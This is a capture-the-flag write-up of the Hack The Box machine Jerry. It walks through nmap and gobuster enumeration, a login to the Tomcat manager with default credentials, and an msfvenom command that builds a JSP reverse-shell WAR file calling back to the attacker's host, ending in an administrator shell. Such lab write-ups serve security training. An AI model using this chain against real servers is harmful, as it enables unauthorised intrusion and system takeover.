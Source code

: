 ```yaml
---
layout: PostSimple
date: 2020-04-20
title:     "Hack The Box - Jerry"
tags: ['windows','easy','tomcat']
layout: post
---
```



![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/144>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    <DIR>          .
06/18/2018  11:31 PM    <DIR>          ..
06/19/2018  06:43 AM    <DIR>          Contacts
06/19/2018  07:09 AM    <DIR>          Desktop
06/19/2018  06:43 AM    <DIR>          Documents
06/19/2018  06:43 AM    <DIR>          Downloads
06/19/2018  06:43 AM    <DIR>          Favorites
06/19/2018  06:43 AM    <DIR>          Links
06/19/2018  06:43 AM    <DIR>          Music
06/19/2018  06:43 AM    <DIR>          Pictures
06/19/2018  06:43 AM    <DIR>          Saved Games
06/19/2018  06:43 AM    <DIR>          Searches
06/19/2018  06:43 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```
